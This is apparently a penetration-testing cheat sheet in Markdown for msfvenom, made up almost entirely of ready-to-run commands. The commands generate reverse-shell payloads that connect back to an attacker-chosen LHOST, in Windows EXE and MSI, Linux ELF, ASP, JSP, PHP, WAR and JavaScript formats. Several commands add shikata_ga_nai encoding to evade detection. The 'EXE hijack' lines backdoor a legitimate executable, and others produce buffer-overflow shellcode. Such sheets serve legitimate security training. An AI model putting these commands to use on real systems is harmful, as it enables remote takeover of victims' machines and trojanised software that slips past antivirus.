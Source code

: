 # Msfvenom

## Commands

#### Generic

```
msfvenom -h
msfvenom -l <formats/payloads/encoders/nops>
```

#### Quick payload generation

```
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <filename>    #create runnable payload
mfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <lang> -v <varname>     #create payload source code
```

## Common payloads

### Windows EXE reverse shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -e x86/shikata_ga_nai -i 8 -o rv.exe
msfvenom -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -e x86/shikata_ga_nai -i 8 -o rv.exe
```

### Windows EXE hijack

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -x <exe file> -k -e x86/shikata_ga_nai -i 8 -o rv.exe
msfvenom -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -x <exe file> -k -e x86/shikata_ga_nai -i 8 -o rv.exe
```

### Windows malicious installer

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <filename>.msi
msfvenom -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <filename>.msi
```

### \*nix ELF reverse shell

```
msfvenom -p linux/<arch>/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf -e x86/shikata_ga_nai -i 8 -o payload
```

### BOF payload

```
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <lang> -v shellcode -e x86/shikata_ga_nai -b "<bad chars>" EXITFUNC=thread
msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <lang> -v shellcode -b "<bad chars>" EXITFUNC=thread
```

### .NET reverse shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o rv.asp
```

### JSP reverse shell

```
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f jsp -o rv.jsp
```

### PHP reverse shell

```
msfvenom -p php/reverse_php LHOST=<ip> LPORT=<port> -f raw -o payload.php
msfvenom -p php/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -o meterpreter.php
```

### WAR file reverse shell

```
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o payload.war
```

### JavaScript reverse shell

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f js_le
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f js_le
```

